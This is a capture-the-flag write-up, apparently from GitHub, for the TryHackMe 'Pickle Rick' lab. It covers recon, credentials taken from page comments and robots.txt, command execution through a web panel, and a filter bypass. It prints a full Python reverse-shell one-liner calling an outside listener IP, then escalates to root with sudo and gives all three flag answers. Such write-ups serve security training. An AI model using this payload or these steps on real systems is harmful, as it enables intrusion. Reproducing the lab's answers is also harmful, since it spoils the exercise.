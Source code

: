 # TryHackMe: Pickle Rick

> This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

*[Link](https://tryhackme.com/room/picklerick)*

### Recon

See `nikto.log` and `nmap.log` and `gobuster.log`. The index page contained an interesting comment:

```
Note to self, remember username!

Username: R1ckRul3s
```

The `robots.txt` file contained the following:

```
Wubbalubbadubdub
```

This combination was a valid credential for the `login.php` page, where it seemed like there was an opportunity to execute arbitrary system commands. This was the result for entering `ls -al`.

![image](https://user-images.githubusercontent.com/6025224/257642398-f076d75b-4986-4059-835b-0c53eb3f764e.png)


## Checking out the files

There seemed to be some limits imposed on these command executions. I couldn't use `cat`, for example. This command helped me read all files anyway:

```
grep . *
```

## Flag 1: What is the first ingredient that Rick needs?

The grep command revealed the following:

```
Sup3rS3cretPickl3Ingred.txt:mr. meeseek hair
```

This `mr. meeseek hair` was the correct first flag.

## Reverse shell

From `revshells.com` I got the following payload and I started a netcat listener.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.94.92",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

This didn't work. It did after I replaced `python` with `python3`. It got me a working reverse shell:

![image](https://user-images.githubusercontent.com/6025224/257642667-87fcd447-4641-401f-9136-b69bc5a80c29.png)

Interestingly, this shell can even run everything as `root` user:

![image](https://user-images.githubusercontent.com/6025224/257642690-18e1b943-97e1-4f45-b9c0-a577ab50ccc6.png)

I just ran `sudo bash` to act as `root` now.

## Flag 2: What is the second ingredient in Rick’s potion?
```
root@ip-10-10-57-64:/var/www/html# cd /home/rick
cd /home/rick
root@ip-10-10-57-64:/home/rick# ls -al
ls -al
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
root@ip-10-10-57-64:/home/rick# cat "second ingredients"      
cat "second ingredients"
1 jerry tear
```

## Flag 3: What is the last and final ingredient?

```
root@ip-10-10-57-64:/var/www/html# ls /root      
ls /root
3rd.txt  snap
root@ip-10-10-57-64:/var/www/html# cat /root/3rd.txt
cat /root/3rd.txt
3rd ingredients: fleeb juice
```
